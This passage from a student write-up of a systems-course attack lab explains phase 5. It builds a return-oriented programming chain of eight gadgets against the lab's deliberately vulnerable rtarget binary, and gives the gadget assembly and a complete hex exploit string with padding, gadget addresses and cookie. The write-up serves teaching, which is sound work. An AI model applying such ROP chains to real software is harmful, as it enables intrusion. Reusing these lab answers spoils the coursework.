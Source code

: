 ```
Cookie: 0x5f5bd74e
Type string:Touch2!: You called touch2(0x5f5bd74e)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

<h3 id = "phase5">Phase 5</h3>
This phase is similar to the combination of phase 3 and phase 4 except we are required 8 gadgets (not all of which are unique). We need to pass the address stored in %rsp to %rdi first, and set the value of %rax as the offset of the address of our cookie string in the stack. Then copy it to %esi. The sum of %rdi and %rsi will be the address that stores the cookie string.

The file can be create according to codes below

```
mov   %rsp,%rax
ret
mov   %rax,%rdi
ret
popq  %rax         
ret                 
movl  %eax,%edx
ret
movl  %edx,%ecx
ret
movl  %ecx,%esi
ret
lea   (%rdi,%rsi,1),%rax
ret
mov   %rax,%rdi
ret
```

The order of passing value between registers can be adjust according to the disasembled code of  your own file `rtarget` 

When doing the first command, %rsp will point to the address of the next command in the stack. And the rest commands will not change the value of %rsp.

Therefore the offset of the address of cookie string is 0x48 because there are 9 commands (0x48 bits) between the first command and the cookie string.

Now we can create atk5.txt like codes below

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00                  /* padding */
fb 5b 55 55 55 55 00 00			 /* use gadget 1 address to rewrite the return address*/
24 5b 55 55 55 55 00 00			 /* gadget 2 address */
13 5b 55 55 55 55 00 00			 /* gadget 3 address */
48 00 00 00 00 00 00 00			 /* offset of the cookie string */
8f 5b 55 55 55 55 00 00			 /* gadget 4 address */
cb 5b 55 55 55 55 00 00			 /* gadget 5 address */
f5 5b 55 55 55 55 00 00			 /* gadget 6 address */
3d 5b 55 55 55 55 00 00			 /* gadget 7 address */
24 5b 55 55 55 55 00 00			 /* gadget 8 address */
6e 5a 55 55 55 55 00 00			 /* touch3 address */
35 66 35 62 64 37 34 65			 /* cookie string */
```
